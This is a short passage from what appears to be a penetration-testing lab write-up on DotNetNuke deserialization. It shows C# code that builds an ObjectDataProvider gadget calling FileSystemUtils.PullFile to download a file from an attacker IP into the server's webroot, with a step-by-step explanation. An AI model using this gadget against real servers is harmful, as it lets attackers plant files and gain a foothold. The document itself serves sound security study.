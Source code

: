 ```c#
            myODP.ObjectInstance = new FileSystemUtils();
            myODP.MethodName = "PullFile";
            myODP.MethodParameters.Add("http://192.168.119.184/myODPTest.txt");
            myODP.MethodParameters.Add("C:/inetpub/wwwroot/dotnetnuke/PullFileTest.txt");
            Console.WriteLine("Done!");
        }
    }
}
```

The code does the following:
1. Sets all appropriate using directives.
2. Creates a ObjectDataProvider instance
3. Instructs it to wrap the DNN FileSystemUtils object.
4. Instructs it to call the PullFile method.
5. Passes 2 arguments being the file on the attacker machine and the local location for the file to be downloaded.

After compiling and running the project, we see that our file was pulled from our attacker machine:

![](../../03.%20Screenshots/t4-ss29.png)

And is stored inside the remote server in our given folder:

![](../../03.%20Screenshots/t4-ss30.png)
